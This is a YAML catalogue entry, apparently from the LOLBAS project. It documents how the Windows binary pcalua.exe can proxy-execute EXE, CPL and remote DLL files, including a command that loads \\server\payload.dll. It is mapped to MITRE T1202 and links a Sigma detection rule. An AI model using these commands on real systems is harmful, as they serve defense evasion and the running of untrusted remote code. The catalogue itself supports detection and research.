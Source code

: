 ```yaml
---
Name: Pcalua.exe
Description: Program Compatibility Assistant
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: pcalua.exe -a calc.exe
    Description: Open the target .EXE using the Program Compatibility Assistant.
    Usecase: Proxy execution of binary
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: EXE
  - Command: pcalua.exe -a \\server\payload.dll
    Description: Open the target .DLL file with the Program Compatibilty Assistant.
    Usecase: Proxy execution of remote dll file
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
    Tags:
      - Execute: DLL
      - Execute: Remote
  - Command: pcalua.exe -a C:\Windows\system32\javacpl.cpl -c Java
    Description: Open the target .CPL file with the Program Compatibility Assistant.
    Usecase: Execution of CPL files
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: DLL
Full_Path:
  - Path: C:\Windows\System32\pcalua.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_pcalua.yml
Resources:
  - Link: https://twitter.com/KyleHanslovan/status/912659279806640128
Acknowledgement:
  - Person: Kyle Hanslovan
    Handle: '@kylehanslovan'
  - Person: Fab
    Handle: '@0rbz_'
---
```

